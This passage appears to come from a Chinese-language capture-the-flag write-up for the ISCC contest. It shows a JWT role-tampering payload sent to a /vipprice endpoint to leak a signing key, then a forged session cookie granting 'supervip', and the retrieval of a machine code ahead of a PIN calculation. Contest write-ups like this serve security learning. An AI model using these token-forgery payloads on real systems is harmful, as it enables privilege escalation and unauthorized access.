```python
#{" eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTQ3NDU3OTIsImlhdCI6MTcxNDc0MjE5MiwianRpIjoiOUY2R1k5Y2R5SzJZNUQyektSaDJKZyIsIm5iZiI6MTcxNDc0MjE5Miwicm9sZSI6Im1lbWJlciIsInVzZXJuYW1lIjoiSVNDQ21lbWJlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9","payload":"eyJleHAiOjE3MTQ3NDU3OTIsImlhdCI6MTcxNDc0MjE5MiwianRpIjoiOUY2R1k5Y2R5SzJZNUQyektSaDJKZyIsIm5iZiI6MTcxNDc0MjE5Miwicm9sZSI6Im1lbWJlciIsInVzZXJuYW1lIjoiSVNDQ21lbWJlciJ9","signature":"UZGcWQ6QRVmBD0w3AdPGuW7gaf-7Y7MkkmIcLjgELNZ2Ao96Vlja5wsUIKfI1O5iNAyCxOJ1FDwHijc2EaDT5vcPVErznzEHHSiz01sTbncxyCEChlJSjVT1-d-HoFwfWte85qnJr0Mtwy2feg9FhGYl9s889qubaJeSkb0Qz2GYMgVkc6eqB62wrhtyGcGfQFyqcYF9AH7DRDfGc9A9_yzp051Zb3_Qx0nPPLX34UeM7HxXoBza5Dmt7OauBwyeYwu87lYFME8FaGXz1UVm4xPB6_GBBv5aZ2IDvWkK4t4W--DrYOM6J0buHp6XKqhjoJhavp56sc5PkhisktGmag"} 

```

**eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTQ3NDU3OTIsImlhdCI6MTcxNDc0MjE5MiwianRpIjoiOUY2R1k5Y2R5SzJZNUQyektSaDJKZyIsIm5iZiI6MTcxNDc0MjE5Miwicm9sZSI6InZpcCIsInVzZXJuYW1lIjoiSVNDQ21lbWJlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTQ3NDU3OTIsImlhdCI6MTcxNDc0MjE5MiwianRpIjoiOUY2R1k5Y2R5SzJZNUQyektSaDJKZyIsIm5iZiI6MTcxNDc0MjE5Miwicm9sZSI6Im1lbWJlciIsInVzZXJuYW1lIjoiSVNDQ21lbWJlciJ9","signature":"UZGcWQ6QRVmBD0w3AdPGuW7gaf-7Y7MkkmIcLjgELNZ2Ao96Vlja5wsUIKfI1O5iNAyCxOJ1FDwHijc2EaDT5vcPVErznzEHHSiz01sTbncxyCEChlJSjVT1-d-HoFwfWte85qnJr0Mtwy2feg9FhGYl9s889qubaJeSkb0Qz2GYMgVkc6eqB62wrhtyGcGfQFyqcYF9AH7DRDfGc9A9_yzp051Zb3_Qx0nPPLX34UeM7HxXoBza5Dmt7OauBwyeYwu87lYFME8FaGXz1UVm4xPB6_GBBv5aZ2IDvWkK4t4W--DrYOM6J0buHp6XKqhjoJhavp56sc5PkhisktGmag**

**构造payload来访问**

/vipprice?token={" eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTQ3NDU3OTIsImlhdCI6MTcxNDc0MjE5MiwianRpIjoiOUY2R1k5Y2R5SzJZNUQyektSaDJKZyIsIm5iZiI6MTcxNDc0MjE5Miwicm9sZSI6InZpcCIsInVzZXJuYW1lIjoiSVNDQ21lbWJlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTQ3NDU3OTIsImlhdCI6MTcxNDc0MjE5MiwianRpIjoiOUY2R1k5Y2R5SzJZNUQyektSaDJKZyIsIm5iZiI6MTcxNDc0MjE5Miwicm9sZSI6Im1lbWJlciIsInVzZXJuYW1lIjoiSVNDQ21lbWJlciJ9","signature":"UZGcWQ6QRVmBD0w3AdPGuW7gaf-7Y7MkkmIcLjgELNZ2Ao96Vlja5wsUIKfI1O5iNAyCxOJ1FDwHijc2EaDT5vcPVErznzEHHSiz01sTbncxyCEChlJSjVT1-d-HoFwfWte85qnJr0Mtwy2feg9FhGYl9s889qubaJeSkb0Qz2GYMgVkc6eqB62wrhtyGcGfQFyqcYF9AH7DRDfGc9A9_yzp051Zb3_Qx0nPPLX34UeM7HxXoBza5Dmt7OauBwyeYwu87lYFME8FaGXz1UVm4xPB6_GBBv5aZ2IDvWkK4t4W--DrYOM6J0buHp6XKqhjoJhavp56sc5PkhisktGmag"}

![image-20240606184201664](./images/2024-4.28-5.5 /image-20240606184201664.png)

"welcome_to_iscc_club"

**拿到key**

**接着使用工具伪造**

![image-20240606184233222](./images/2024-4.28-5.5 /image-20240606184233222.png)

**eyJyb2xlIjoic3VwZXJ2aXAifQ.ZjTpww.qq5CoROXgEtq7CNT3584t0L7DHs**

**点击supervip后更改cookie**

![image-20240606184255168](./images/2024-4.28-5.5 /image-20240606184255168.png)

**拿到机器码**

![image-20240606184317973](./images/2024-4.28-5.5 /image-20240606184317973.png)

**acff8a1c-6825-4b9b-b8e1-8983ce1a8b94**

**到这里我们已经拿到了所有信息，可以着手计算ping了**
